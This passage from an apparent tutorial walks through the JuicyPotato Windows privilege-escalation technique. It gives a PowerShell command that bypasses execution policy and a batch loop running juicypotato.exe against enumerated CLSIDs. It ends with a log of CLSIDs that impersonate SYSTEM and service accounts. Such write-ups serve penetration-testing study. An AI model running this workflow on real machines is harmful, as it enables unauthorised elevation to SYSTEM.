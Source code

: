 ![](https://miro.medium.com/max/875/1*537pvF7SDTx-B9JD2Dj2UA.png)

Save the Powershell code in a file and run it. Save the output in a file.

```powershell
powershell -executionpolicy bypass -file GetCLSID.ps1 > clsid.txt
```

run the PS script and save the output

![](https://miro.medium.com/max/875/1*uqLMXFtWZ9F3hls8YTmVRA.png)

In order to execute this command successfully, we can enumerate valid CLSIDs to be used with JuicyPotato.exe, to do so the following script can aid: [test_clsid.bat](http://ohpe.it/juicy-potato/Test/test_clsid.bat)
```c
@echo off
:: Starting port, you can change it
set /a port=10000
SETLOCAL ENABLEDELAYEDEXPANSION

FOR /F %%i IN (CLSID.txt) DO (
   echo %%i !port!
   juicypotato.exe -z -l !port! -c %%i >> result.log
   set RET=!ERRORLEVEL!
   :: echo !RET!
   if "!RET!" == "1"  set /a port=port+1
)

```

This script will test all the retrieved CLSIDs and at the end will retrieve only those which were successfully executed Impersonating another user:

```bash
type result.log
{0289a7c5-91bf-4547-81ae-fec91a89dec5};NT AUTHORITY\IUSR
{0fb40f0d-1021-4022-8da0-aab0588dfc8b};NT AUTHORITY\LOCAL SERVICE
{1BE1F766-5536-11D1-B726-00C04FB926AF};NT AUTHORITY\LOCAL SERVICE
{204810b9-73b2-11d4-bf42-00b0d0118b56};NT AUTHORITY\LOCAL SERVICE
{2e5e84e9-4049-4244-b728-2d24227157c7};NT AUTHORITY\LOCAL SERVICE
{42CBFAA7-A4A7-47BB-B422-BD10E9D02700};NT AUTHORITY\SYSTEM
{4661626C-9F41-40A9-B3F5-5580E80CB347};NT AUTHORITY\SYSTEM
{4B6C85F1-A6D9-433A-9789-89EA153626ED};NT AUTHORITY\SYSTEM
{6d8ff8d2-730d-11d4-bf42-00b0d0118b56};NT AUTHORITY\LOCAL SERVICE
{6d8ff8dc-730d-11d4-bf42-00b0d0118b56};NT AUTHORITY\LOCAL SERVICE
{6d8ff8dd-730d-11d4-bf42-00b0d0118b56};NT AUTHORITY\LOCAL SERVICE
{6d8ff8df-730d-11d4-bf42-00b0d0118b56};NT AUTHORITY\LOCAL SERVICE
{6d8ff8e1-730d-11d4-bf42-00b0d0118b56};NT AUTHORITY\LOCAL SERVICE
{6d8ff8e5-730d-11d4-bf42-00b0d0118b56};NT AUTHORITY\LOCAL SERVICE
{6d8ff8e7-730d-11d4-bf42-00b0d0118b56};NT AUTHORITY\LOCAL SERVICE
{8BC3F05E-D86B-11D0-A075-00C04FB68820};NT AUTHORITY\SYSTEM
{9678f47f-2435-475c-b24a-4606f8161c16};NT AUTHORITY\IUSR
{97061DF1-33AA-4B30-9A92-647546D943F3};NT AUTHORITY\SYSTEM
{98068995-54d2-4136-9bc9-6dbcb0a4683f};NT AUTHORITY\IUSR
{9acf41ed-d457-4cc1-941b-ab02c26e4686};NT AUTHORITY\IUSR
{A47979D2-C419-11D9-A5B4-001185AD2B89};NT AUTHORITY\LOCAL SERVICE
{B31118B2-1F49-48E5-B6F5-BC21CAEC56FB};NT AUTHORITY\SYSTEM
{C49E32C6-BC8B-11d2-85D4-00105A1F8304};NT AUTHORITY\SYSTEM
{CBC04AF1-25C7-4A4D-BB78-28284403510F};NT AUTHORITY\SYSTEM
```
